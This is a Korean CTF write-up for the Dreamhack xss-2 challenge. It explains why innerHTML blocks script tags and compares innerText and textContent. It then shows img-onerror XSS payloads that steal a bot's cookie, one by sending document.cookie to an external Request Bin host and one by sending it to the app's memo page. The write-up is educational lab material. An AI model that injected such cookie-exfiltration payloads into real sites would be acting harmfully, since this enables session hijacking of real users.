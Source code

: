 문제
==
![1](https://user-images.githubusercontent.com/73854324/158143422-bb2f57fa-da04-4175-badb-b72320312bfe.png)
<br>
==
문제를 풀어보고 나니, 다른 방법이 생각나서 추가한다.   
밑으로 쭉쭉 내려서 처음에 푼 방법을 먼저 보면 이해가 더 잘 된다.   
<br><br>
![1](https://user-images.githubusercontent.com/73854324/158157258-6ca79698-05c7-4ddf-8682-8f3f38e8b651.png)<br>
코드를 보면, 우리는 먼저 flag 페이지에 POST 방식으로 요청을 보낸다.   
그 후 check_xss 함수가 실행된다. (뒤 코드를 보면 결과를 알겠지만, 쿠키 값이 없다면 wrong?? 이 뜰 것이다.)   
<br><br>
![2](https://user-images.githubusercontent.com/73854324/158157261-40fe18a6-5f29-481a-9b29-9d59aa61071c.png)<br>
check_xss 함수의 내용은 이러하다.(이미지 하단 부분)   
입력받은 파라미터와 쿠키값을 가지고, read_url 함수를 통해서 flag 값을 가진 봇이 링크에 접속한다.   
read_url 함수에서는 웹드라이버를 통해서 flag 값을 쿠키로 가진 채 해당 url에 접속하게 된다.<br>
그렇다면, 봇이 쿠키값을 가진 채 접속하게만 하고 요청 헤더의 쿠키값만 확인하면 된다.
==
<br>
dreamhack 사이트 내에는, 여러 툴들이 존재한다.   
<br><br>
![0](https://user-images.githubusercontent.com/73854324/158157253-84b4ea82-9f9a-4c46-8ed8-262b75b1cc55.png)<br>
https://tools.dreamhack.games/main   
해당 링크 내 Request Bin 은, 임의로 웹서버를 만든 것처럼 가상으로 방문자들의 정보를 알 수 있다.   
이 웹서버로 봇이 쿠키값을 가지고 접속하게만 하면 된다.   
실전으로 옮겨보았다.   
<br><br>
![3](https://user-images.githubusercontent.com/73854324/158157265-09b9806a-d126-4797-87d3-c5da739aac5c.png)<br>
할당받은 url은 https://qwtdbvz.request.dreamhack.games 이다.   

```
https://qwtdbvz.request.dreamhack.games?document.cookie
```

이 곳으로 접속하면, 쿠키값을 가진채로 그냥 봇이 접속 할 것 같다.   
vuln 페이지에서 xss 공격을 하기 위해서는 img 태그를 사용했었다.   
![4](https://user-images.githubusercontent.com/73854324/158157266-0a9455a1-546c-495e-a932-baa8d02926c3.png)<br>

```
<img src="/" onerror="location.href='https://qwtdbvz.request.dreamhack.games?'+document.cookie">
```

바로 주입시켜보았다.   
<br><br>
![5](https://user-images.githubusercontent.com/73854324/158157269-8eec9af3-e3c1-4374-bd93-f78c7ac9aa57.png)<br>
요청 값으로 쿠키가 들어있다.   
<br><br><br><br><br><br>
처음에 푼 방법
==
![2](https://user-images.githubusercontent.com/73854324/158143428-737e818b-03ad-464e-aa1e-a697459697fa.png)<br>
메인페이지는 뭐.. xss-1 이랑 다를 바 없었다.   
(심지어 XSS-2 문제인데도, XSS-1 이라 적힌 것 까지)   
<br><br>
![3](https://user-images.githubusercontent.com/73854324/158143430-0e9b3f14-7553-4158-b43a-4411dbb9718b.png)<br>
xss-1 문제를 풀어보았으니, 바로 vuln 페이지로 들어갔는데,   
제대로 스크립트가 param 으로 전달되었음에도 팝업창이 뜨지 않았다.   
<br><br>
![4](https://user-images.githubusercontent.com/73854324/158143433-127f17f5-fcad-4944-89eb-3c1b90461149.png)<br>
note 페이지로 들어갔다.   
딱히 xss-1 문제랑은 다를 바 없어보인다.   
<br><br>
![5](https://user-images.githubusercontent.com/73854324/158143436-f3482d1a-6b92-43f5-bbc0-897f7b8fd830.png)<br>
flag 페이지 역시 마찬가지.   
<br><br>
![6](https://user-images.githubusercontent.com/73854324/158143440-12a9c843-0fc8-464a-acea-0eb97ef6fb7c.png)<br>
먼저 스크립트가 먹히지 않는 vuln 페이지의 소스를 살펴보았다.   
찾아보니, URLSearchParams 객체는, URL(GET방식) 로 파라미터를 받을 때 ? 뒤에 적히게 되는데   
? 를 제외한 파라미터 값들을 수정하거나 확인? 등 여러 용도로 사용할 수 있다고 한다.   
그리고 내 눈에 띄었던 점은, innerHTML 이었다.   
<br><br>
![7](https://user-images.githubusercontent.com/73854324/158143444-e45def26-b631-4764-a7db-db36e3565a10.png)<br>

```
https://developer.mozilla.org/en-US/docs/Web/API/Element/innerHTML
https://www.w3.org/TR/2008/WD-html5-20080610/dom.html#innerhtml0
```

innerHTML 을 사용할 경우, <script> 구문이 먹혔기 때문에 HTML5 로 들어오면서 막혔다고 한다.   
innerHTML 과 비슷한 용도로 사용할 수 있는 innerText, textContent 가 있었다.   
<br>
대충 잠깐 정리해보자면,   
textContext 는 원시 텍스트(only 텍스트)만 결과물로 출력된다.   
innerText 는 html 태그들이 적용되지 않고 보이는 텍스트들만 결과물로 출력된다.   
innerHTML 는 html 태그들이 모두 포함되어 결과물로 출력된다.   

```
3가지 차이점에 대해 포스팅해놓으신 글
https://hianna.tistory.com/483
```

## 아무튼 XSS 스크립트를 실행시키기 위해서는 script 를 사용하지 않고 해야한다는 것을 알았다   
![8](https://user-images.githubusercontent.com/73854324/158143448-d5cb401e-7d48-4e52-9b85-aa3441f3e877.png)<br>
그렇다면, 전에 잠깐 알고있었던 img 태그의 onerror 속성을 이용해보기로 했다.   
보통 img src 에 파일명을 적는데, 없을만한 파일명을 적어주면 흔히 '엑박' 이 뜬다.   
이렇게 오류가 발생했을 경우, onerror 내부의 명령이 실행된다.   
<br><br>
![9](https://user-images.githubusercontent.com/73854324/158143449-1d3c4348-429a-43ac-ad05-eb4d5a832e39.png)<br>
onerror 를 이용해서 alert 창의 실행을 성공했다.   
그렇다면, onerror 내부에 xss 스크립트를 넣어준다면 쿠키를 탈취할 수 있을 것이다.   
<br><br>
![10](https://user-images.githubusercontent.com/73854324/158143450-da728bc0-1620-4bcf-8169-f4b0113832cb.png)<br>
```
주입 구문
<img src="/" onerror="location.href='/memo?memo='+document.cookie">
```


![11](https://user-images.githubusercontent.com/73854324/158143451-5c204d54-62b0-46d1-bdbe-0da2926dad37.png)<br>
성공적으로 되었다.   
이제 memo 페이지로 돌아가서 쿠키값을 확인해보자.   
(쿠키값에 flag 가 저장되어있고, 제대로 탈취되었는지 보러 가보자)   
<br><br>
![12](https://user-images.githubusercontent.com/73854324/158147825-c431f741-929f-4c49-8027-9f46f26f8dee.png)<br>
flag 값 획득 성공